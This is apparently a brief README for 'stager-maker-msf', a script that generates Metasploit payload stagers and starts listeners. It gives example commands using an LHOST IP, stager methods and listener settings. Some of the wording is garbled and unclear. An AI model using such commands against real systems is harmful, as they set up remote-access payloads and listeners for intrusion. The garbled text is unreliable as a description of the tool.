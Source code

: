 # stager-maker-msf
`
(Staging of payload splitting from 25-22 pcs.)
`

# More options for standing

`
use -> ./script <LHOST> or <PAYLOAD> and optional {<STAGER> spec|fast} and/or {<START_MSF> yes and/or <SET_LHOST_MSF>}

example -> ./scpt 192.168.1.241 yes (start metasploit, set custom later) optional is "yes" if IP is specified!
example -> ./scpt 192.168.1.241 0.0.0.0 (start metasploit, set all listeners)
example -> ./scpt 192.168.1.241 fast yes 0.0.0.0 (create payload with fast method and start metasploit, set all listeners)
example -> ./scpt payload_shell fast yes 0.0.0.0 (same as above, pre-made payload instead of IP)
(default stager method: special, work time: 2.5-5s)
`
